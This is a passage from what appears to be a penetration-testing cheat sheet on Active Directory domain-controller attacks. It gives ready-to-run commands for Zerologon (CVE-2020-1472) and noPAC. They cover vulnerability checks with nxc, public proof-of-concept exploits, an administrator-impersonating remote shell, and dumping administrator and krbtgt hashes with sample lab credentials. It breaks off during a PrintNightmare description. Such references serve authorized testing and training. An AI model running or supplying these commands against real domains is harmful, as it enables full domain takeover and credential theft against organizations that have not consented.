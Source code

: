 ```bash
# Check for the vulnerability
nxc smb <dc-ip> -u '' -p '' -M zerologon
```

There is a [PoC](https://github.com/dirkjanm/CVE-2020-1472) available:

{% code overflow="wrap" %}
```bash
# Exploit
./cve-2020-1472-exploit.py <DC-netBIOS-name> <dc-ip>

# Dump the administrator's hash
$ impacket-secretsdump -just-dc -no-pass <DC-netBIOS-name>\$@<dc-ip> -just-dc-user administrator

# Restore password
./restorepassword.py <DC-netBIOS-name>@<DC-IP> -target-ip <DC-IP> -hexpass <plaintext-machine-password>
```
{% endcode %}
{% endtab %}

{% tab title="noPAC" %}
noPAC is a vulnerability that lets an attacker with low-privileged domain access abuse misconfigured delegation and Kerberos to impersonate DCs and gain `Domain Admin` rights by forging a Privileged Attribute Certificate (PAC).

```bash
# Check for the vulnerability
$ nxc smb dc01 -u <user> -p <pass> -M nopac
```

There is a [PoC](https://github.com/Ridter/noPac) available:

{% code overflow="wrap" %}
```bash
# Get the ST
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203

# Get RCE
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 -shell --impersonate administrator

# Dump hash
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 --impersonate administrator -dump

python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 --impersonate administrator -dump -just-dc-user cgdomain/krbtgt
```
{% endcode %}
{% endtab %}

{% tab title="PrintNightmare" %}
PrintNightmare is a critical Windows Print Spooler vulnerability that allows an attacker with network or local access to **execute code as** `SYSTEM` on a DC or any Windows machine, enabling full takeover of the system and often the entire domain.
